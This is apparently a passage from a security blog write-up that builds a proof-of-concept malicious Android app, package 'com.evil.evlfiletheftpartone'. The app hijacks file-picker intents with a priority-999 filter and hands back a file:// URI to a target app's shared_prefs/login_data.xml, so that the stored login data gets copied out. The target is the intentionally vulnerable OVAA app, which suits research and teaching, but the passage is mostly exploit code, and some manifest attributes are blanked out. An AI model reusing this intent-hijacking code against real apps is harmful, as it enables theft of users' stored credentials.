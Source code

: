 ![](https://miro.medium.com/max/1400/1*MpDJxD_OoGuAKrbvwolHhA.png)

Let’s craft our malicious apps.

**PoC** of the Apps.

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.evil.evlfiletheftpartone"><application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Evlfiletheftpartone">
        <activity android:>
            <intent-filter android:priority="999">
                <action android: />
                <category android: />
                <data android:mimeType="*/*" />
                <data android:mimeType="image/*" />
            </intent-filter>
        </activity>
        <activity android:>
            <intent-filter>
                <action android: />
            </intent-filter>
        </activity>
    </application></manifest>
```

MainActivity Class,

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent cont = new Intent(getApplicationContext(),thievesss.class);
        startActivity(cont);
    }
}
```

Thievesss Class,

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.os.StrictMode;public class thievesss extends AppCompatActivity {@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_thievesss);
        StrictMode.setVmPolicy(StrictMode.VmPolicy.LAX);
        Intent stealing = new Intent();
        stealing.setData(Uri.parse("file:///data/data/oversecured.ovaa/shared_prefs/login_data.xml"));
        setResult(RESULT_OK,stealing);
        finish();
    }
}
```